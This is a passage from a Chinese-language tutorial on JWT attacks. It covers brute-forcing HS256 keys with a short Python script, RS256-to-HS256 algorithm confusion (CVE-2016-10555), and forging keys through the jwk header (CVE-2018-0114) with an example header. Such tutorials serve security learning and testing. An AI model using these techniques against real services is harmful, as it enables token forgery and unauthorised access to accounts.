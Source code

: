 - [修改算法为none](http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php?)

### 签名密钥可被爆破

jwt使用签名算法对hedaer和payload进行加密，如果我们可以爆破出加密密钥，那么也就可以随意修改token了。

这里有一个python版的[jwt爆破脚本](https://github.com/Ch1ngg/JWTPyCrack)

也可以快速用以下脚本爆破:

```python
jwt_str = "xxx.ttt.zzz"
path = "D:/keys.txt"
alg = "HS256"

with open(path,encoding='utf-8') as f:
    for line in f:
        key_ = line.strip()
        try:
            jwt.decode(jwt_str,verify=True,key=key_,algorithm=alg)
            print('found key! --> ' +  key_)
            break
        except(jwt.exceptions.ExpiredSignatureError, jwt.exceptions.InvalidAudienceError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.ImmatureSignatureError):
            print('found key! --> ' +  key_)
            break
        except(jwt.exceptions.InvalidSignatureError):
            continue
    else:
        print("key not found!")
```

### 修改非对称密码算法为对称密码算法(CVE-2016-10555)

JWT的签名算法有两种类型，对称加密和非对称加密算法。

对称加密算法比如HS256，加解密使用同一个密钥，保存在后端。

非对称加密算法比如RS256，后端加密使用私钥，前端解密使用公钥，公钥是我们可以获取到的。

**如果我们修改header，将算法从RS256更改为HS256，后端代码会使用RS256的公钥作为HS256算法的密钥。于是我们就可以用RS256的公钥伪造数据**

比如说这道CTF题目：https://skysec.top/2018/05/19/2018CUMTCTF-Final-Web/#Pastebin/

### 伪造密钥(CVE-2018-0114)

jwk是header里的一个参数，用于指出密钥，存在被伪造的风险。比如CVE-2018-0114： https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-0114

攻击者可以通过以下方法来伪造JWT：删除原始签名，向标头添加新的公钥，然后使用与该公钥关联的私钥进行签名。

比如：

```json
{
  "typ": "JWT",
  "alg": "RS256",
  "jwk": {
    "kty": "RSA",
    "kid": "TEST",
    "use": "sig",
    "e": "AQAB",
    "n": "oUGnPChFQAN1xdA1_f_FWZdFAis64o5hdVyFm4vVFBzTIEdYmZZ3hJHsWi5b_m_tjsgjhCZZnPOLn-ZVYs7pce__rDsRw9gfKGCVzvGYvPY1hkIENNeBfSaQlBhOhaRxA85rBkg8BX7zfMRQJ0fMG3EAZhYbr3LDtygwSXi66CCk4zfFNQfOQEF-Tgv1kgdTFJW-r3AKSQayER8kF3xfMuI7-VkKz-yyLDZgITyW2VWmjsvdQTvQflapS1_k9IeTjzxuKCMvAl8v_TFj2bnU5bDJBEhqisdb2BRHMgzzEBX43jc-IHZGSHY2KA39Tr42DVv7gS--2tyh8JluonjpdQ"
  }
}
```